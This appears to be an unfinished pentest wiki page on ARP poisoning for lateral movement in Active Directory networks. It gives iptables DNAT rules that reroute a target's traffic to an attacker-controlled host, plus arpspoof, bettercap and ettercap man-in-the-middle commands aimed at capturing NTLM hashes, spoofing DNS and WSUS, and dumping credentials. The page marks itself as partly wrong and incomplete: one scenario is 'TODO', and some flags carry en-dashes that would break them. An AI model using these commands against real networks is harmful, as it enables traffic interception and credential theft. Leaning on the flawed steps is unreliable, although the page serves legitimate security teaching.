

# 🛠️ ARP poisoning


**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name


## Theory

The ARP \(Address Resolution Protocol\) is used to link IPv4 addresses with MAC addresses, allowing machines to communicate within networks. Since that protocol works in broadcast, attackers can try to impersonate machines by answering ARP requests \(_"Who is using address 192.168.56.1? I am!"_\) or by flooding the network with ARP announcements \(_"Hey everyone, nobody asked but I'm the one using address 192.168.56.1"_\). This is called ARP spoofing \(also called ARP poisoning\).

## Practice


Since spoofing every address in a subnet can cause temporary but severe disruption in that subnet, it is highly recommended to target specific addresses and machines while doing ARP spoofing.


There are multiple scenarios where ARP spoofing can be used to operate lateral movement within Active Directory domains \(not an comprehensive list\). 

1. [NTLM capture](../abusing-lm-and-ntlm/capturing-hashes.md) and [NTLM relay](../abusing-lm-and-ntlm/relay.md) : spoof an SMB server and reroute received SMB packets to internal capture or relay servers
2. [DNS spoofing](dns-spoofing.md) : spoof the internal DNS server, so that DNS queries can be answered with fake resolutions
3. [WSUS attacks](../../../systems-and-services/privilege-escalation/windows/wsus-attacks.md) : spoof the WSUS server and deliver evil configurations to Windows clients
4. [Dumping network secrets](../credentials/dumping/network-secrets.md) : reroute any traffic and dump secrets that were insecurely sent \(i.e. FTP, HTTP,  SMTP, ...\)

Before attempting ARP spoofing, it is important to know what to spoof and how. There are three major scenarios that can occur. Each scenario involves a different attack method.

//// important : with ARP spoofing we can either

* intercept packets, spoof a server and act like one \(DNS, WSUS\)
* intercept and forward packets \(outgoing and incoming\) which needs both ways spoofing \(spoof target for server, and spoof server for target\), used for PCreds for instance

1. **One segment**: the machine to spoof, the target, and the attacker's machine are on the same network segment.
2. **Two segments**: both the target and the attacker's machine are on the same network segment but the spoofed machine is on another one.
3. **Three segments**: all three machines are on different network segments.

### Scenario 1 : one segment

Packets destined to the Server are to be intercepted.



```bash
# delete all rules 
iptables --flush

# delete all rules in the "nat" table
iptables --table nat --flush

# enable packet forwarding for IPv4
echo 1 > /proc/sys/net/ipv4/ip_forward

# forwarded packets are not to be modified in any way
iptables --table nat --append POSTROUTING --out-interface $INTERFACE --jump MASQUERADE

# packets that were destined to the Server, on port PORT/PROTO
# are to be intercepted and forwarded to an attacker controlled server 
# or to the legitimate server depending on what the attacker wants
iptables --table nat --append PREROUTING --jump DNAT --proto $UDP_or_TCP -s $TARGET --dst $SERVER_IP –dport $SERVER_PORT –to-destination $ATTACKER_IP:$ATTACKER_PORT

# poison the target's arp table and spoof the Server's IP address
arpspoof -i $INTERFACE -t $TARGET $SERVER
```

### Scenario 2 : two segments

Packets destined to the Server are to be intercepted. Packets that are not destined to the server are to be forwarded.


```bash
# delete all rules 
iptables --flush

# delete all rules in the "nat" table
iptables --table nat --flush

# enable packet forwarding for IPv4
echo 1 > /proc/sys/net/ipv4/ip_forward

# forwarded packets are not to be modified in any way
iptables --table nat --append POSTROUTING --out-interface $INTERFACE --jump MASQUERADE

# packets that were destined to the Server, on port 53/UDP
# are to be intercepted and forwarded to an attacker controlled server
iptables --table nat --append PREROUTING --jump DNAT --proto $UDP_or_TCP -s $TARGET --dst $SERVER_IP –dport $SERVER_PORT –to-destination $ATTACKER_IP:$ATTACKER_PORT

# poison the target's arp table and spoof the Server's IP address
arpspoof -i $INTERFACE -t $TARGET $SERVER
```

### Scenario 3 : three segments

TODO //


Rest of this is wrong on incomplete

### Preparation

In order to conduct ARP spoofing attacks, the attacker's machine needs to be prepared accordingly \(IP forwarding enabled, outgoing ICMP dropped, internal traffic rerouted\).

```bash
# IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# outgoing ICMP drop (prevents sending port/host unreachable to target)
iptables -A OUTPUT -p ICMP -j DROP

# internal traffic rerouting of SMB packets (port 445, can be changed)
iptables --table nat --append PREROUTING --proto tcp --dst $SPOOFED_IP --dport 445 --jump DNAT --to-destination $ATTACKER_IP:445
```

### Spoofing

Tools like [ettercap](https://www.ettercap-project.org/) \(C\) of [bettercap](https://www.bettercap.org/) \(Go\) can then be used to flood the network with ARP announcements for a specific IP address.



The following commands can be used, with parameters as follows

* `set arp.spoof.targets` to set the targets
* `set arp.spoof.internal true` to make bettercap spoof local connections among computers of the network
* `arp.ban on` to start the spoofer in ban mode, meaning the target\(s\) connectivity will not work
* `arp.spoof` on to start the spoofer

```bash
set arp.spoof.targets $TARGET_TO_POISON_IP
set arp.spoof.internal true
arp.ban on
arp.spoof on
```



While bettercap is now usally a better alternative to ettercap, the following command can be used for ARP spoofing.

```bash
ettercap --text --quiet --nopromisc --mitm arp:remote /$SWITCH_IP// /$TARGET_TO_POISON_IP//
```



## Resources









